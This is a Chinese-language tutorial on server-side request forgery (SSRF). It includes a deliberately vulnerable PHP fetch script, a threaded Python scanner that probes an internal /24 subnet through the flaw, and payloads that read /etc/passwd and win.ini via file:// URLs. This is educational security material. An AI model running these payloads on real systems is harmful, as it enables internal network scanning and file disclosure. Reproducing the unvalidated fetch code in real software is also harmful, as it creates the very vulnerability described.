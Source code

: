 SSRF(Server-Side Request Forgery:服务器端请求伪造) 是一种由攻击者构造形成由服务端发起请求的一个安全漏洞。一般情况下，SSRF攻击的目标是从外网无法访问的内部系统。（正是因为它是由服务端发起的，所以它能够请求到与它相连而与外网隔离的内部系统）

SSRF 形成的原因大都是由于服务端提供了从其他服务器应用获取数据的功能且没有对目标地址做过滤与限制。比如从指定URL地址获取网页文本内容，加载指定地址的图片，下载等等。 

url是远程目标的文本

```http
http://www.webtester.com/ssrf.php?url=http://www.moonsec.com/robots.txt
```

漏洞代码ssrf.php

```php
<?php
include 'init.php';
if ($_GET['url']) {
        // Client
        $url = $_GET['url'];
        $ch = curl_init($url);
        curl_setopt($ch, CURLOPT_RETURNTRANSFER, true);
        curl_setopt($ch, CURLOPT_NOSIGNAL, 1);
        curl_setopt($ch, CURLOPT_TIMEOUT_MS, 5000);
        $data = curl_exec($ch);
        $curl_errno = curl_errno($ch);
        $curl_error = curl_error($ch);
        curl_close($ch);

        if ($curl_errno > 0) {
                echo "cURL Error ($curl_errno): $curl_error\n";
        } else {
                echo "$data\n";
        }
} else {
        // Server
        sleep(10);
        echo "Done.";
}
?>
```

1、 利用扫描内部网络

扫描c段的ip 和端口

ssrf.py 

```python
#coding:utf-8
import urllib,urllib2
import threading,Queue,time

q = Queue.Queue()
lock = threading.Lock()
def get_server(url,data=None):
    code=html=length=""
    data ={'url':'http://'+data}
    values= urllib.urlencode(data)
    try:
        req=urllib2.urlopen(url, data=values, timeout=5)
        html=req.read()
        code =req.code
        length=len(html)
        return code,html,length
    except:
        return code,html,length
#print get_server("http://localhost/ssrf/ssrf.php", "127.0.0.1:3306")

def run():
    while q.qsize()>0:
        ip = q.get()
        code,html,length=get_server("http://www.webtester.com/ssrf.php",ip)
        time.sleep(0.01)
        if length!="":
            lock.acquire()
            print "http://"+ip+"    code     "+str(code)+"    length    "+str(length)+"    html    "+html
            lock.release()
        else:
            lock.acquire()
            print ip
            lock.release()            
    q.all_tasks_done
    
ip="192.168.31."
for i in range(1,255):
    for port in [22,80,8080,3306]:
        iport = ip+str(i)+":"+str(port)
        q.put(iport)
        
for i in range(10):
    t = threading.Thread(target=run)
    t.start()
q.join()
```

2、 攻击内部网络

```http
http://www.webtester.com/ssrf.php?url=http://192.168.31.125/phpinfo.php
```

![image-20210416005953719](../acess/image-20210416005953719.png) 

3、识别内部系统

4、读取本地文件 

file:///C:/Windows/win.ini
file:///etc/passwd

```http
http://www.webtester.com/ssrf.php?url=file:///etc/passwd
```

![image-20210416005618673](../acess/image-20210416005618673.png) 

用burpsuite进行测试

![image-20210416010932999](../acess/image-20210416010932999.png) 
